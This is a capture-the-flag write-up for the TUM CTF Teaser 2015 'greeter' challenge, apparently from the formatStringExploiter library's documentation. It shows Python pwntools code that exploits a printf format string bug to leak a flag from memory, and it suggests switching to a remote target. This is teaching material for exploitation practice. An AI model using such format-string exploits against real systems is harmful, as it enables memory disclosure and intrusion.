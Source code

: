 ############################
TUM CTF Teaser 2015: greeter
############################

********
Overview
********
Another example of a basic format string vulnerability. In this case, the flag
was read into memory and your input was printf'd back at you. The goal being to
use that printf to read the flag from memory. 

Example::

  $ ./greeter
  Hi, what's your name?
  %x  
  Pwn harder, 8d74e440!


*****************
The Vulnerability
*****************
As previously mentioned, we have a format string vulnerability, and we know
that the flag was read into memory prior to our format string being executed.
The easy method is to simply print it out as a string.


****************
Step 1: exec_fmt 
****************
The first step in using the ``FormatString`` class is to create an exec_fmt
function. This function will take in any arbitrary input, pass that input into
the application properly, parse the results and return the results back. At
this point, we're not worried about exploiting the vulnerability, we're simply
interacting with the program.

.. code-block:: python

  def exec_fmt(s):
      p = process(fName,bufSize=0xffff)
      p.sendline(s)
      p.recvuntil("Pwn harder, ",drop=True)
      return p.recvall()


That'll do. That's the majority of your work right there.


*************************
Step 2: Instantiate Class
*************************
Next, we need to instantiate a FormatString class. This can be done strait
forward. To make it simpler, we'll also open an ``ELF`` class on the exe.

.. code-block:: python

  from formatStringExploiter.FormatString import FormatString
  from pwn import *
  
  # Load the binary in pwntools. This way we don't need to worry about the
  # details, just pass it to FormatString
  elf = ELF("./greeter")
  
  # Now, instantiate a FormatString class, using the elf and exec_fmt functions
  fmtStr = FormatString(exec_fmt,elf=elf)

You will see some data scroll. This is the FormatString class attempting to
discover your buffer for you. Finally, you'll see something like this::

  Found the offset to our input! Index = 6, Pad = 0

Good to go now. It has found the buffer, we can simply ask the class to perform
actions for us now.

***************************
Step 3: Read Flag As String
***************************
Now that it's all set up, simply ask ``FormatString`` to give you this variable
as a string.

.. code-block:: python

  fmtStr.leak.s(elf.symbols['flag'])

That's it. Your flag is printed. If this were the CTF, you could change
``process`` to ``remote`` and run it again to grab the flag.

*********
Resources
*********
* `greeter <https://github.com/ctfs/write-ups-2015/blob/9b3c290275718ff843c409842d738e6ef3e565fd/tum-ctf-teaser-2015/pwn/greeter/greeter?raw=true>`_
* `greeter.py <https://raw.githubusercontent.com/Owlz/formatStringExploiter/master/docs/examples/greeter.py>`_
* `greeter github <https://github.com/ctfs/write-ups-2015/tree/9b3c290275718ff843c409842d738e6ef3e565fd/tum-ctf-teaser-2015/pwn/greeter>`_
